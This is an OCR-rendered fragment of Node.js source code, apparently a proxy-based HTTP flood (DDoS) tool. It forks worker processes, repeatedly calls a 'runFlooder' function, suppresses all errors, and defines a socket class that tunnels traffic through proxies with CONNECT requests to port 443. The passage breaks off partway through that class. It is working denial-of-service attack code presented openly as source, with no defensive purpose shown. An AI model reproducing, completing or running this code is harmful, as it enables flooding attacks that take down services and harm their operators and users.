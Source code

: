 if (cluster.isMaster) {
   for (let counter = 1; counter <= args.threads; counter++) {
       cluster.fork();
   }
}else {
  setInterval(runFlooder)
} 
  setTimeout(function(){

     process.exit(1);
   }, process.argv[3] * 1000);
   
   process.on('uncaughtException', function(er) {
   });
   process.on('unhandledRejection', function(er) {
   });


class NetSocket {
    constructor(){}

 HTTP(options, callback) {
    const parsedAddr = options.address.split(":");
    const addrHost = parsedAddr[0];
    const payload = "CONNECT " + options.address + ":443 HTTP/1.1\r\nHost: " + options.address + ":443\r\nConnection: Keep-Alive\r\n\r\n"; //Keep Alive
    const buffer = new Buffer.from(payload);

    const connection = net.connect({
        host: options.host,
        port: options.port,
        allowHalfOpen: true,
        writable: true,
        readable: true
    });

    connection.setTimeout(options.timeout * 100000);
    connection.setKeepAlive(true, 100000);
    connection.setNoDelay(true)

    connection.on("connect", () => {
        connection.write(buffer);
    });

    connection.on("data", chunk => {
        const response = chunk.toString("utf-8");
        const isAlive = response.includes("HTTP/1.1 200");
        if (isAlive === false) {
            connection.destroy();
            return callback(undefined, "error: invalid response from proxy server");
        }
        return callback(connection, undefined);
    });

    connection.on("timeout", () => {
        connection.destroy();
        return callback(undefined, "error: timeout exceeded");
    });
